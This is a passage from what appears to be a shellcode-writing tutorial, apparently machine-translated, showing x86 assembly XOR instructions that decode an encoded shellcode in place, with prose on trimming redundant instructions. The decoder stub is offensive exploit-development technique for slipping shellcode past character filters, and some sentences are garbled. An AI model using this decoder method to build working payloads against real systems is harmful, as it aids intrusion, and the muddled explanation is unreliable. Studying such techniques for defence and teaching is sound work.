 ```asm
xor [eax +65], dh
xor [eax + 66], bh
push word 0x5050
pop dx
xor [eax +67], dh
xor [eax + 68], bh
xor [eax +69], bh
push word 0x5050
pop dx
xor [eax +69], dh
xor [eax + 71], bh
xor [eax + 72], bh
push word 0x5050
pop dx
xor [eax +73], dh
xor [eax + 74], bh
xor [eax + 75], bh
push word 0x5050
pop dx
xor [eax +75], dh
```



All these instructions decode our shellcode! Luckily, only 50 are used to xorer, it is not always the case, especially if you want to alphanumeric shellcode or write your own sentence.
So we can consolidate identical xor push word 0x5050 are there for example in case we do xorer could not all bytes with 50.

This gives us:

```asm
xor [eax + 41], bh
xor [eax + 43], bh
xor [eax + 45], bh
xor [eax + 47], bh
xor [eax + 48], bh
push word 0x5050
pop dx
xor [eax + 49], dh
xor [eax +51], dh
xor [eax + 62], bh
xor [eax + 63], bh
xor [eax + 63], dh
xor [eax + 64], bh
xor [eax + 65], dh
xor [eax + 66], bh
xor [eax + 67], dh
xor [eax + 68], bh
xor [eax + 69], bh
xor [eax + 69], dh
xor [eax + 71], bh
xor [eax + 72], bh
xor [eax + 73], dh
xor [eax + 74], bh
xor [eax + 75], bh
xor [eax + 75], dh
```
